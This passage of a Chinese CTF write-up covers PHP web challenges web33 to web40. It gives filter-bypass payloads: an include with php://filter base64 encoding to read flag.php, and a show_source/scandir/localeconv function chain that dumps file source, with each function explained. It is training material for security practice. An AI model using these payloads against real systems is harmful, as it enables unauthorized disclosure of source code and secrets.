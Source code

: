 来逃逸过滤，`1`后面可以拼接任意语句，由于没有分号分割，所以内容无法输出，所以要用到文件包含来做，最终payload：

```
?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

得到进行base64解码即可



#### web33

和上题一样



#### web34

和上题一样



#### web35 

和上题一样



#### web36

和上题一样，不过数字被过滤，用a代替1即可（不过为什么`%0a`的0没被过滤？——说是`%0a`是一个整体 不会单看里面的0）



#### web40

过滤了一大堆东西：

![image-20250124234003712](assets/image-20250124234003712.png)

但里面的括号是中文括号，不是英文的（这玩意不看wp是真没发现）

payload：

```
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

解释：

```
show_source():与 highlight_file() 函数的功能类似，用于以语法高亮的形式显示指定文件的源代码。
next():主要用于在数组中移动内部指针到下一个元素，并返回该元素的值。
array_reverse():用于反转数组中元素的顺序,接受一个数组作为参数，并返回一个反转后的新数组。原数组并不会被修改。
scandir():用于返回指定目录中的文件和目录的列表,接受一个目录路径作为参数，返回一个数组，数组元素包含了目录中的文件和子目录的名称。
pos():current()函数的别名，它只返回内部指针当前指向的数组元素的值。它不会以任何方式移动指针。如果内部指针指向元素列表的末尾，则post()返回false。
localeconv():获取当前地域的数字和货币格式信息，返回一个数组。
```
